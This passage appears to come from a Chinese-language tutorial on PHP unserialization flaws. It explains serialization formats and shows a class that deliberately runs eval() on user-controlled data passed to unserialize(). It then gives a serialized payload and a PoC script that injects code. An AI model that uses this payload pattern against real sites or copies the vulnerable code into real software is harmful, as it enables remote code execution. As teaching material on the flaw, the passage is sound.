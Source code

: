              `<length> `指的就是字符单位数，而不是字符数  
     
             Unicode String 中采用的是 UTF16 编码，这种编码方式使用 16 位来表示一个字符的，但是并不是所有的都是可以用 16 位表示的，因此有些字符需要两个 16 位来表示一个字符。在 UTF16 编码中，16 位字符算作一个字符单位。Unicode String 中字符数并不总是等于字符单位数
     
         *   `<unicode string>`的编码规则  
     
             对于编码小于 128 的字符（但不包括 \），按照单个字节写入，对于大于 128 的字符和 \ 字符，则转化为 16 进制编码的字符串，以 \ 作为开头，后面四个字节分别是这个字符单位的 16 进制编码，顺序按照由高位到低位排列，也就是第 16-13 位所对应的16进制数字字符（abcdef 这几个字母是小写）作为第一个字节，第 12-9 位作为第二个字节，第 8-5 位作为第三个字节，最后的第 4-1 位作为第四个字节。

#### 1.1.3 实例

*   存在漏洞的代码：

    ```php
    <?php
    class test{
       private $flag;
       function __destruct(){
       eval($this->flag);
       }
    };
    $get = $_GET["test"];
    echo("$get");
    $object = unserialize($get);
    ?>
    ```

*   如果直接输出到文件
    *   `O:4:"test":1:{s:10:"testflag";s:10:"phpinfo();";}`    如果是数字的变量，i:100不用加长度      
    *   `O:<class_name_length>:"<class_name>":<number_of_properties>:{<properties>      以分号间隔}`
    *   写在这里面的数据不能用额外的空格来分割。而且最后也要用；结尾

    -   对不同类型的变量，会用不同的形式，详细见上文的对象序列化(**php7版本不验证变量的修饰符，所以我们可以直接把private，protect改成public就行**)


-   利用poc(输出成字符，然后对于\x00，转换成%00)

```php
<?php
class test{
    private $flag="phpinfo();";
	function __destruct(){
		eval($this->flag);
		}
};
$object=new test();
$object->test="phpinfo();";
$data=serialize($object);#返回的是字符串
file_put_contents('serialize.txt',$data);
$strlen = strlen($data);
$a=urlencode($data);
echo($a);
?>
```

